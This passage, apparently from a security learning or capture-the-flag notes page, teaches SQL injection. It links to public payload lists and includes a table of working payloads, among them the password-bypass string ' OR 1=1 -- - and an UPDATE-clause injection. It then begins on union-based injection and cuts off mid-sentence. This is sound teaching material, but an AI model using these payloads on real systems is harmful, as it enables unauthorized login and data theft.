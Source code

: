 <hr class="sr">

## Famous payloads

**Payloads** are the values that you are using the break into the database.

<div class="row row-cols-md-2"><div>

* [sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list) (2.6k ⭐)
* [PayloadsAllTheThings/SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) (42.3k ⭐)
</div><div>

* [SQLMap](../sqlmap/index.md) (25k ⭐) - automated tool 📌

</div></div>

<table class="table table-bordered table-striped border-dark mt-3">
<thead>
<tr><th>Name</th><th>SQL</th><th>Payload</th></tr>
</thead>
<tbody>

<tr><td>Usual PoC</td><td><code>Select [...] where xxx='here' [...]</code></td><td><code>'</code><br><small>The query will fail as there would be 3 quotes,<br> and that would confirm that an injection is possible.</small></td></tr>

<tr><td>NoPassword</td><td><code>Select [...] where username='here' AND password='here' [...]</code></td><td><code>' OR 1=1 -- -</code><br><small>The query will bypass the check of the password,<br>if it was made in the query.<br>We use 1=1 for maximum compatibility.</small></td></tr>

<tr><td>Input box String</td><td><code>Select [...] where xxx='here' [...]</code></td><td><code>' code -- -</code></td></tr>

<tr><td>Input box Non-String</td><td><code>Select [...] where xxx=here [...]</code></td><td><code>'' code -- -</code></td></tr>

<tr><td>Update</td><td><code>Update [...] set x='here',y=[...]</code></td><td><code>',x=(code),y='</code></td></tr>
</tbody></table>

<div class="row row-cols-md-2 mt-4"><div>

* If there are client-side filters, then intercept the request (ex: Burp)

* If the developer was lazy, the "names" in the form, may be similar, or the name of columns in the database

</div><div>
</div></div>

<hr class="sl">

## Manual Union-based SQLi

<div class="row row-cols-md-2"><div>

**Union-based SQLi** can only be achieved is the two queries have the same number of attributes in the SELECT, as per the property of the UNION clause. Hence, we first need to find how many parameters there are in the unknown request. There are 2 ways
